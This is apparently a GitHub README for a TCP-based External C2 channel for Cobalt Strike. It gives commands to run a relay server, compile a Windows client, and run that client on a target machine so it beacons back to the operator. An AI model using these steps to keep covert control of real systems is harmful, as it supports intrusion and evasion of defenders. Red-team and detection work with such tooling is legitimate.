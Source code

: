 # COBALT STRIKE TCP CHANNEL

This project provides a TCP-based communication channel for Cobalt Strike. This is meant as a base for covert channels implemented in any TCP-based protocol.

To use the channel, load up Cobalt Strike and add a new External C2 listener.
This channel is configured to run on the default Teamserver port of 2222.

To start the server, run the following command:

> python3 [Name].py [Teamserver IP] [Python Server IP] [Port] [Pipename] [OPTIONAL:-tp TeamserverPort]

- [Name] is the name of your Python server.
- [Teamserver IP] is the IP of your Cobalt Strike teamserver.
- [Python Server IP] is the IP of the machine you are running server.py on. (“0.0.0.0” has been found to work on Linux machines, though it is unknown if this behavior is consistent everywhere.)
- [Port] is the port that the server listens on to communicate with the client over. This is not the same port that the Python server uses to communicate with the teamserver.
- [Pipename] is the name of the pipe the client creates when it runs on the target. This could be any valid pipename.  
- [TeamserverPort] is the port to connect to on the Cobalt Strike teamserver. It defaults to 2222 and is an optional argument.

If you have the MinGW compiler installed, you may compile the client C code with the following command:

>i686-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c -lws2_32

You can compile the debug version of the client with print statements by adding `-DDEBUG` to the end of the compile command

Change the client exe name if desired.
Move the resultant executable to your target machine, and then run it with the following command:

>./[Name].exe [Python Server IP] [Port] [Pipename] [Sleep] [Timeout]

- [Name] is the name of your client executable.
- [Python Server IP], [Port], and [Pipename] must be the same as the ones passed to server.py.
- [Sleep] is the sleep time (in seconds) to wait between check ins with the server. It hits this sleep when the beacon indicates it has nothing left to send back to the server and is just checking in.
- [Timeout] is the send/recv socket timeout option (in seconds) set by setsockopt(). May remove in future.

## CONSTRAINTS AND NOTES

- This channel expects only one client per instance of server.py. Multiple clients communicating with the same server requires multiple instances of server.py running on different ports.
- The client closes the TCP connection, sleeps, then reopens the TCP connection. If there is a small sleep timer, this will result in a lot of short TCP sessions with the source port increasing by 1.
- Note: Mudge defined max payload size as 512 \* 1024 and max buffer size as 1024 \* 1024.

## TODOS/IMPROVEMENTS

- Handle multiple clients on one server.
